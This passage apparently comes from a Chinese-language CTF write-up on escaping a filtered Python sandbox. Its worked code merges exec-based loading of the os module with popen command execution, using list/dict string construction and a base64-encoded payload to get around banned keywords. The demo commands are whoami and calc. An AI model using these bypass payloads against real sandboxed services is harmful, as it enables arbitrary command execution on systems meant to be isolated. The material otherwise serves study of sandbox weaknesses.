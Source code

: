 上面载入函数和执行函数是分开，如何合并到一起呢？

* `[exec(...)][0][system("whoami")]`  （会报错None Type not subscriptable）
* `if(exec(...)==None):system("calc")`  （当然if被ban了，那就换成for）
* `for(i)in[exec(...)]:system("calc")`
* `[str][bool(exec...)](list(popen("whoami"))[0])`

第三个有点抽象了

```python
exec(....)    # 返回None
print(bool(None))  # None转bool为False
print([2, 3, 4][False])  # False作索引转0
```

获取到str，将命令执行结果转字符串

```python
a=[str][bool(exec(
    bytes([
        ord(j)
        for(i)in(
            list(
                open(
                    str(
                        __import__(
                            list(dict(os=1))[0]
                        )
                    )[19:-2]
                )
            )
        )
        for(j)in(i)
    ])
))](list(popen(list(dict(whoami=1))[0]))[0])
print(a)
```

上面的命令由于是`list + dict`搞出来的字符串，还是无法构造特殊字符，只能执行`whoami`这种单一命令，无法反弹shell

```python
[eval][
    bool(
        exec(
            bytes([
                ord(j)
                for(i)in(
                    list(
                        open(
                            str(__import__(list(dict(base64=1))[0]))[23:-2]
                        )
                    )
                )[:-5]
                for(j)in(i)
            ])
        )
    )
](
    b64decode(
        list(
            dict(X19pbXBvcnRfXygnb3MnKS5wb3BlbignY2FsYycpLnJlYWQoKSAg=1)
        )[0]
    )
)
```
